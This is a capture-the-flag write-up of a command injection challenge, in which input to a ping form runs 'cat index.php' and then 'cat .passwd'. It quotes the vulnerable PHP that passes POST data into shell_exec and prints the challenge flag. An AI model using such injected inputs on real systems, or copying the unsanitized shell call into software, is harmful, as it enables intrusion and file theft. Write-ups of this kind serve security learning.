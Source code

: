 ```yaml
---
custom_edit_url: null
sidebar_position: 6
---
```


> Find a vulnerability in this service and exploit it.
> The flag is on the `index.php` file.

![1](https://github.com/Knign/Write-ups/assets/110326359/c39a2154-0f61-483b-b922-b8067f6c8c5b)

Let's input `127.0.0.1` as the input field is suggesting.

![2](https://github.com/Knign/Write-ups/assets/110326359/7bdbfb6d-5555-416b-8fcc-128d84d901c5)

We can see that our input is used to execute a `ping` command.

We know the flag is on the `index.php` file. In order to `cat` the flag we need to use the `;` separator.
## User Input
```
127.0.0.1 ; cat index.php
```

![3](https://github.com/Knign/Write-ups/assets/110326359/f0d75377-bb63-4cc1-9309-34b6daefa1f6)

Looks like our input was processed properly. Let's check the source code.

![4](https://github.com/Knign/Write-ups/assets/110326359/22cb3fb7-b0bb-4d42-b737-580593a2a05f)

The source code reveals an interesting piece of code.
## PHP code
```php
<?php 
$flag = "".file_get_contents(".passwd")."";
if(isset($_POST["ip"]) && !empty($_POST["ip"])){
        $response = shell_exec("timeout -k 5 5 bash -c 'ping -c 3 ".$_POST["ip"]."'");
        echo $response;
}
?>
```
The line `shell_exec("timeout -k 5 5 bash -c 'ping -c 3 ".$_POST["ip"]."'")` executes a shell command based on user input ($_POST["ip"]).

The line `"".file_get_contents(".passwd").""` reads the content of a file named `.passwd` and appends it to the `$flag` variable. 

Let's modify our input to `cat` the `.passwd` file.
## User Input
```
127.0.0.1 ; cat .passwd
```

![5](https://github.com/Knign/Write-ups/assets/110326359/1c040311-cc40-487b-b866-67abe9edd2ff)

## Flag
```
S3rv1ceP1n9Sup3rS3cure
```
